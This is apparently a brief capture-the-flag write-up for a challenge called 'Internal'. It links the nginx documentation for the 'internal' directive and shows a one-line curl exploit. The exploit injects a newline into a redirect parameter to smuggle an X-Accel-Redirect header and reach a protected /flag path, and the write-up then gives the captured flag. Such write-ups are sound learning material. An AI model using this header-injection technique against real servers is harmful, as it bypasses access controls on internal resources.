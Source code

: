 # Internal
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f5f445de-3668-4e00-b166-197c29c0f198)

## ref
[nginx doc internal](https://nginx.org/en/docs/http/ngx_http_core_module.html#internal)

## exploit
```bash
curl -vvv "$1?redir=$(urlencode "https://google.com
X-Accel-Redirect: /flag")"
```

## Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/bdc8499e-b765-4b59-9e68-f5462358f2a8)

`AIS3{jU$T_sOM3_funNy_N91Nx_FEatur3}`
